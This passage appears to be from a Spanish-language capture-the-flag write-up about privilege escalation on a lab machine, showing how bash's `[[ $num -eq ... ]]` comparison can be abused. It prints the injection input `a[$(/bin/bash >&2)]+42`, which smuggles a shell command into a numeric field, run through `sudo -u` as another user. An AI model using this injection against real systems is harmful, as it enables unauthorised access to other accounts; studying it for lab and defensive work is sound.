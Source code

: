 
## (Posible) Bash `eq` Code Execution

Existe una forma de escalar privilegios mediante el uso de la comparación `-eq` de `bash`, donde el uso de doble corchetes permite inyectar un comando (`[[ $num -eq 123123 ]]`)

~~~ bash
www-data@5c050710a415:/home/maci$ cat script.sh
cat script.sh
#!/bin/bash

read -rp "Adivina: " num

if [[ $num -eq 123123 ]]
then
  echo "Si"
else
  echo "ERROR"
fi
~~~

- `if [[ $num -eq 123123 ]]` Sería la sentencia de la podríamos abusar para elevar nuestros privilegios

El script se comporta de la siguiente manera si lo ejecutamos normalmente

~~~ bash
www-data@5c050710a415:/home/maci$ ./script.sh
./script.sh
Adivina: 1
1
ERROR
~~~

Para aprovechar esto y escalar privilegios, ejecutaremos el script como el usuario propietario

~~~ bash
sudo -u maci ./script.sh
~~~

Cuando nos pida adivinar pegaremos lo siguiente

~~~ bash
Adivina: a[$(/bin/bash >&2)]+42
a[$(/bin/bash >&2)]+42
www-data@5c050710a415:/home/maci$ 
~~~

Pero tendremos un problemita, **no conocemos la contraseña para el usuario `www-data`**, por lo que necesitamos disponer de credenciales válidas para ejecutar este recurso. **No nos será posible escalar nuestros privilegios usando este método**, así que buscaremos otras formas para migrar a otro usuario


## System Enumeration - Readable Files

Buscaremos archivos en el sistema cuyo miembro sea cada usuario en cuestión
